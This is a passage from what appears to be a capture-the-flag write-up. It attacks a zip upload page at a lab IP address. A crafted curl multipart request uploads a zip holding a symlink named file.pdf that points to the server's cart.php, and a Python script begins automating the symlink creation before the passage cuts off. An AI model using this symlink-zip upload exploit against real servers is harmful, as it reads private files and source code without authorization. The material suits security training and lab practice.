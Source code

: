 ```php
    }
```
Looks like the name and filename matter, I believe it needs to be a name=zipFile and filename=something.zip  

And this is pretty much what the payload should look like according to burp
```bash
curl --X POST \
    -H 'Content-Type: multipart/form-data; boundary=---------------------------2882812691696788429152111510' \
    -b 'PHPSESSID=hbgid28hhen8m2b0648svpgg0u' \
    --data-binary \
'
-----------------------------2882812691696788429152111510
\x0d\x0a
Content-Disposition: form-data; name=\"zipFile\"; filename=\"file.zip\"\x0d\x0aContent-Type: application/zip\x0d\x0a\x0d\x0aPK\x03\x04\x0a\x00\x00\x00\x00\x00(\xb7]W\xdc.C\x92\x1b\x00\x00\x00\x1b\x00\x00\x00\x08\x00\x1c\x00file.pdfUT\x09\x00\x03K\xe3>eN\xe3>eux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00/var/www/html/shop/cart.phpPK\x01\x02\x1e\x03\x0a\x00\x00\x00\x00\x00(\xb7]W\xdc.C\x92\x1b\x00\x00\x00\x1b\x00\x00\x00\x08\x00\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xa1\x00\x00\x00\x00file.pdfUT\x05\x00\x03K\xe3>eux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00N\x00\x00\x00]\x00\x00\x00\x00\x00
\x0d\x0a
-----------------------------2882812691696788429152111510
\x0d\x0a
Content-Disposition: form-data; name=\"submit\"
\x0d\x0a
\x0d\x0a
\x0d\x0a
-----------------------------2882812691696788429152111510
--
\x0d\x0a
'

'http://10.10.11.229/upload.php'
```

After experimenting a little it looks like we can't really do this with requests, as far as I can tell requests doesn't provide that level of granularity, and just automatically matches name with the filename.   

So I ended up borrowing a chunk of code form stack overflow to build the payload manually with htt.client
```python
import subprocess
import argparse
import http.client
import uuid
import requests
from bs4 import BeautifulSoup


def do_the_symlink(link_path, file_name):
    res = subprocess.run(
        [f"rm {file_name}.pdf"],
        shell=True,
        capture_output=True,
        text=True
    )
    # print(res.stdout)
    # print(res.stderr)

    res = subprocess.run(    # noqa F841
        [f"ln -s {link_path} {file_name}.pdf"],
        shell=True,
```